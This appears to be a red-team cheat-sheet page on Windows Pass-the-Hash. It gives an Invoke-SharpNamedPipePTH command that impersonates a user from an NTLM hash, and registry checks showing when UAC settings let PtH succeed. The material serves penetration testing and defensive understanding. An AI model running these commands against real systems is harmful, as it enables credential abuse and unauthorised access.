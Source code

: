 # Pass-the-Hash




## NamedPipePTH

* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)
* [https://github.com/S3cur3Th1sSh1t/NamedPipePTH](https://github.com/S3cur3Th1sSh1t/NamedPipePTH)
* [https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)

Impersonate a user with Pass-the-Hash for **local** actions (because network authentication does not work with `Impersonation Token`, only with `Delegation Token`):

```
PS > . .\Invoke-SharpNamedPipePTH.ps1
PS > Invoke-SharpNamedPipePTH -C "domain:megacorp.local username:snovvcrash hash:fc525c9683e8fe067095ba2ddc971889 binary:C:\Windows\System32\cmd.exe"
```

Can be used for authenticating in SQL Server management tools (`%PROGRAMFILES(X86)%\Ssms.exe\Microsoft SQL Server Management Studio 18\Common7\IDE\Ssms.exe`) and accessing DBs with SQL admin hash, for example.




## PtH Notes



### User Account Control

* [https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)



### LocalAccountTokenFilterPolicy

| Property Name                                                                                                                                              | Property Path                                                                                  |
|------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------|
| [LocalAccountTokenFilterPolicy](https://docs.microsoft.com/ru-ru/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` |

If `LocalAccountTokenFilterPolicy` exists and set to `1` (doesn't exist by default), remote connections from **all** local admins are not affected by UAC and PtH will succeed:

```
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\" -Name LocalAccountTokenFilterPolicy
```



### FilterAdministratorToken

| Property Name                                                                                                                         | Property Path                                                                             |
|---------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------|
| [FilterAdministratorToken](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1) | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken` |

If `FilterAdministratorToken` exists and set to `1` (doesn't exist by default), builtin local admin account (RID 500) is affected by UAC and PtH will fail:

```
PS > Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ -Name FilterAdministratorToken
```
